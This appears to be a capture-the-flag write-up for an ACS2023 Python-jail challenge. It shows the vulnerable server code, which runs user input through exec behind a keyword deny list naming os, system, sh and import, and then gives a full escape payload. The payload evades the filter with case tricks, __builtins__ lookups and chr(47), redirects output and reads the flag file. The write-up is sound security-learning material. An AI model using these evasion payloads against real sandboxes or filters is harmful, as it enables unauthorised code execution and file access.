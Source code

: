 ```yaml
---
title: "Escape Room [Code Audit]"
categories: Acs2023
permalink: /ctfs/acs2023/escaperoom
---
```

Python Jail challenge.

## 📁 Challenge Description

> Can you escape?
>
> Connect to instance: `nc 192.168.0.45 50137`

```python
import os, sys

def main():
  filter_list = ['sys','import','flag','open','/',"sh","bin",'eval','exec','os','read','system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  
  main()
```

## 🚩 Solution

The program accepts multi-line inputs until it detects the word `'EOF'` at the end of the input. The flag is placed somewhere in the instance. So, we need to figure out how to bypass the condition checks and successfully execute our commands.

Looking through the code, the program seems like filtered out some significant words including `sys`, `import`, `flag`, `open`, `eval`, `exec`, `os`, `read`, `system`, `bin`, `sh`, even the word `flag` and `/`.

We know we need to use these words to help us retrieve the flag. 

During the competition, I found an amazing [write-up](https://anee.me/escaping-python-jails-849c65cf306e) that is very similar to this challenge. Python has a `__builtins__` module that can directly access the pre-defined functions using `__dict__` representation.

Example:

```python
>>> import os.system
>>> __builtins__.__dict__['__import__']('os').__dict__['system']('')
```

These two lines have the same meaning. Of course, we are not going to directly insert the filtered words as they get rejected based on the list.

Luckily, there is a flaw in the `filter_list` where it only checks for the lowercase of the words. Therefore, we can capitalize all the words and add `.lower()` to bypass the check.

```python
>>> __builtins__.dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('')
```

Ok, now here is a problem. The program has another line that prevents returning any outputs to the user. Here is the line,

```python
os.close(0)
os.close(1)
exec(binary)
```

The `os.close()` accepts **File Descriptors** as a parameter. By default, file descriptor `0` refers to standard input, `1` refers to standard output, and `2` refers to standard error. By knowing this, we know that the program is currently using the standard output as it is trying to close this file descriptor before the commands are executed. So, when we attempt to print any output, it will return

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
OSError: [Errno 9] Bad file descriptor
```

What should we do next? The program does close the standard output but it returns an error. Remember that `2` is the file descriptor for standard error which the program does not include it. Hence, I ended up with a crazy move that I can redirect my standard error to standard output.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
```

Now, the error is my standard output, which means any output is replacing the error output slot. By defining this line, the `print()` function will work successfully.

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

anything
```

Combine what we have now and we can make our final payload.

```
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))
f = __builtins__.__dict__['OPEN'.lower()](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)+'FLAG'.lower(), 'r')
for i in f:
        print(i)
EOF

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
ACS{r00m_nam3_i4_sandbox__and__y0u_escap3_r00m_successfully!!!}
```

As the program checks `/`, we replace it with `chr(47)` which gives the same meaning. The `os.listdir()` is also used and we get a `ctf_user` directory.

Getting deeper, we found the `flag` file. We used the same `.lower()` method to bypass that. However, the program filters the word `read` where `__builtins__` does not include it. Hence, we use a `for` loop to print every character out without abusing the condition checks.

Hope I explained the challenge clearly...
